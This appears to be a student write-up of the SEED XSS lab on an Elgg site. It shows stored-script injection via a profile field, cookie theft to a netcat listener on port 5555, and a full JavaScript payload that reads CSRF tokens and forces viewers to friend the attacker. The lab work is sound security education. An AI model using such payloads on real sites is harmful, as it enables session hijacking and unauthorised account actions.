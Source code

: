 # XSS 

## Preparation

In this task, after opening up the HTTP Header Live, we can see multiple requests and their response.

![""](http_header_live.png)



## Task 1

After login in with the user samy, we can see our profile.

![""](task1_1.png)

Now, in the edit profile page, we can change the about us section, and place our script inside

![""](task1_2.png)


Now, everytime we check our profile, we can see the XSS pop up.

![""](task1_3.png)


If we login with another count, like alice, and check the profile of samy, we can see that the script also makes the pop up appear.

![""](task1_4.png)

![""](task1_5.png)



## Task 2

All we need to do is repeat the steps of the previous task, but this time place the new script.


![""](task2_1.png)


![""](task2_2.png)


## Task 3

Taking the same initial steps as before (login to sammy account and go to the edit profile page), we can write the script to send the cookies of the user which is looking at our profile to us.

![""](task3_1.png)

Now, if we login with alice, and run `nc -lknv 5555` in order to listen to everything that is transmited in the port 5555, when alice checks our profile, we can receive their cookies

![""](task3_2.png)

So, everytime someone check our profile, we will receive their cookies.
We can also use HTTP Header Live in order to check the request made by the browser

![""](task3_3.png)





## Task 4

First of all we need to understand how to the request to add a friend is made.
We can do this by making any friend request, and use http live to see how it was made.

In this case, we made a request from alice's account, and tried to add charlie as friend:

![""](task4_1.png)


We have 3 query parameters:

- **friend** which is the id of the friend you wish to add

- **__elgg_ts** and **__elgg_token** which are both used as countermeasures against CSRF attacks. We need to have these parameters, otherwise, our request will just be discarded. So, we need to ask javascript to get these values during runtime, in order for them to be valid (That's what is done in the script below).

```
<script type="text/javascript">
	window.onload = function () {
	var Ajax=null;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;
	
	//Construct the HTTP request to add Samy as a friend.
	var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
	}
</script>

```

After preparing our script, we can write it on our profile just like we did with the previous scripts.


![""](task4_2.png)

Now, in order to test our script, we can login into alice's account, and check her friends.


![""](task4_3.png)

As we can see in the image above, alice has no friends (for now).

Now, let's search for Sammy's profile in the members page, and check his profile:

![""](task4_4.png)

![""](task4_5.png)

Now, we can go to alice's friends page, and now we can see that sammy was added as friend, meaning that our script has worked.

![""](task4_6.png)


Using the http live we can even check how our request was made:

![""](task4_7.png)












 












